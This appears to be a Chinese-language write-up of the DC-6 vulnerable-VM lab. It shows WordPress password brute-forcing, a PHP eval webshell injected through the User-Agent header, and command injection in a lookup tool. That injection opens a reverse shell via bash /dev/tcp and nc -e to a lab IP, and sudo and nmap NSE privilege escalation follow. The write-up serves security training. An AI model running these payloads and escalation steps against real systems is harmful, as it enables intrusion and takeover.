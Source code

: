 # DC-6
nmap扫描
![](vx_images/437754682784938.png)
查看80端口修(需改hosts文件指向wordy)
![](vx_images/159092786294454.png)
一个wordpress站点
常规的目录扫描,没有什么发现
用wpscan扫一下,依然没啥发现
![](vx_images/130992871262358.png)
看一下wordpress版本有没有漏洞(依然没找到)
没啥突破点了,只有尝试爆破了

作者给了提示:
 /usr/share/wordlists/rockyou.txt |grep k01 > passwords.txt
 
```
sudo  cat /usr/share/wordlists/rockyou.txt |grep k01 > passwords.txt

```
尝试用这些用户名和密码去登录ssh
没有试出来
再拿去跑后台
![](vx_images/282646021687381.png)
mark/helpdesk01
进入后台
发现有活动日志记录
记录了登陆时的UA头,应改可以利用
```
User-Agent: hackhere<?php eval($_POST[1]);?>
```
成功记录
![](vx_images/468201846907214.png)
蚁剑连不上,看了下源码,没有解析为php代码,引号还被转义
![](vx_images/361154153045160.png)
尖括号被转换,应该利用不了
注意到有个工具功能转换ip,和lookup查询
猜测这个lookup可能是执行了命令nslookup
用;闭合执行ls
![](vx_images/256967224805000.png)
验证猜想
那么就尝试反弹shell到kali上
```
bash -i >& /dev/tcp/192.168.111.128/4444 0>&1没成功
nc -e /bin/sh 192.168.111.128 4444成功获得shell
```
![](vx_images/481023738429874.png)
翻看home目录发现几个用户
![](vx_images/444005773857769.png)
正好有mark的密码,且开启ssh服务
尝试ssh登录
好吧密码不对登录不了
看看suid提权
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null
![](vx_images/541257092259948.png)
没感觉没有啥能利用的
sudo提权也不行
![](vx_images/192536485169637.png)
去查一下内核版本有没有提权漏洞
翻找发现了一个文件
![](vx_images/319901838872280.png)
恢复超级驱动器的全部功能（需要与 Jens 交谈）
- 为莎拉的欢送会购买礼物
- 添加新用户：graham - GSo7isUM1D4 - 完成
- 申请 OSCP 课程
看来是给了我们ssh登录的密码
成功登入
![](vx_images/404303360171209.png)
此时sudo -l有提示
![](vx_images/502843396004198.png)
但是需要jens用户
将/bin/bash写入后执行,就能获得jens权限
```
echo '/bin/bash'>backups.sh

sudo -u jens ./backups.sh
```
![](vx_images/580400630588245.png)
再查看权限
![](vx_images/247061677834379.png)
能看到nmap能以root身份运行
![](vx_images/315032004541412.png)
但是试了不行,是较高版本的nmap没有这个参数了
使用 --script 参数执行命令,nmap 的 NSE（Nmap Scripting Engine）脚本引擎可以执行系统命令
# 方法A：重写文件
利用 nmap 可以将扫描结果输出到文件的功能，来覆盖敏感文件（如 /etc/passwd），从而添加一个 root 用户

# 方法B：将命令写入一个文件后执行
echo 'os.execute("/bin/sh")' > /tmp/shell.nse
sudo nmap --script /tmp/shell.nse
进去后先输入python -c 'import pty;pty.spawn("/bin/bash")'

![](vx_images/233524689024751.png)


